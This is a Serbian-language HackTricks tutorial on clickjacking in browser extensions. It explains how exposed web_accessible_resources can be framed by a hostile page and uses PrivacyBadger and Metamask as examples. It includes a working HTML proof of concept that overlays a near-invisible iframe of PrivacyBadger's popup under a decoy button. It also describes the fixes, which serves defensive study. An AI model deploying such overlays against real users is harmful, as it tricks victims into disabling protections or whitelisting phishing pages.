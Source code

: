 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Osnovne informacije

Ova stranica će iskoristiti ClickJacking ranjivost u ekstenziji pregledača.\
Ako ne znate šta je ClickJacking, proverite:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

Ekstenzije sadrže datoteku **`manifest.json`** i ta JSON datoteka ima polje `web_accessible_resources`. Evo šta [Chrome dokumentacija](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources) kaže o tome:

> Ovi resursi bi zatim bili dostupni na veb stranici putem URL-a **`chrome-extension://[PACKAGE ID]/[PATH]`**, koji se može generisati pomoću **`extension.getURL method`**. Resursi na beloj listi se isporučuju sa odgovarajućim CORS zaglavljima, tako da su dostupni putem mehanizama kao što je XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

**`web_accessible_resources`** u ekstenziji pregledača nisu dostupni samo putem veba; oni takođe funkcionišu sa inherentnim privilegijama ekstenzije. To znači da imaju sposobnost da:

* Promene stanje ekstenzije
* Učitaju dodatne resurse
* Interaguju sa pregledačem do određene mere

Međutim, ova funkcija predstavlja sigurnosni rizik. Ako resurs unutar **`web_accessible_resources`** ima bilo kakvu značajnu funkcionalnost, napadač bi potencijalno mogao da ugradi ovaj resurs u eksternu veb stranicu. Neoprezni korisnici koji posete ovu stranicu mogli bi nenamerno aktivirati ovaj ugrađeni resurs. Takva aktivacija mogla bi dovesti do nepredviđenih posledica, u zavisnosti od dozvola i sposobnosti resursa ekstenzije.

## Primer PrivacyBadger

U ekstenziji PrivacyBadger, identifikovana je ranjivost povezana sa `skin/` direktorijumom koji je proglašen kao `web_accessible_resources` na sledeći način (Proverite originalni [blog post](https://blog.lizzie.io/clickjacking-privacy-badger.html)):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
Ova konfiguracija je dovela do potencijalnog bezbednosnog problema. Konkretno, `skin/popup.html` datoteka, koja se prikazuje prilikom interakcije sa ikonom PrivacyBadger u pretraživaču, mogla bi biti ugrađena unutar `iframe`. Ova ugradnja bi mogla biti iskorišćena da prevari korisnike da nenamerno kliknu na "Onemogući PrivacyBadger za ovu veb stranicu". Takva akcija bi kompromitovala privatnost korisnika onemogućavanjem zaštite PrivacyBadger i potencijalno izložila korisnika povećanom praćenju. Vizuelna demonstracija ovog eksploata može se pogledati u ClickJacking video primeru koji je dostupan na [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

Da bi se rešila ova ranjivost, implementirano je jednostavno rešenje: uklanjanje `/skin/*` sa liste `web_accessible_resources`. Ova promena je efikasno smanjila rizik osiguravajući da sadržaj `skin/` direktorijuma ne može biti pristupljen ili manipulisan putem resursa dostupnih na mreži.

Popravka je bila jednostavna: **ukloniti `/skin/*` iz `web_accessible_resources`**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Metamask Primer

A [**blog post about a ClickJacking in metamask can be found here**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). U ovom slučaju, Metamask je ispravio ranjivost proverom da li je protokol koji se koristi za pristup **`https:`** ili **`http:`** (ne **`chrome:`** na primer):

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Još jedan ClickJacking ispravljen** u Metamask ekstenziji bio je taj što su korisnici mogli da **Kliknu da dodaju na belu listu** kada je stranica bila sumnjiva zbog `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. Kako je ta stranica bila ranjiva na Clickjacking, napadač je mogao da je zloupotrebi prikazujući nešto normalno kako bi naterao žrtvu da klikne da je doda na belu listu bez da primeti, a zatim se vraćajući na phishing stranicu koja će biti dodata na belu listu.

## Steam Inventory Helper Primer

Proverite sledeću stranicu da biste videli kako je **XSS** u ekstenziji pretraživača povezan sa **ClickJacking** ranjivošću:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## Reference

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
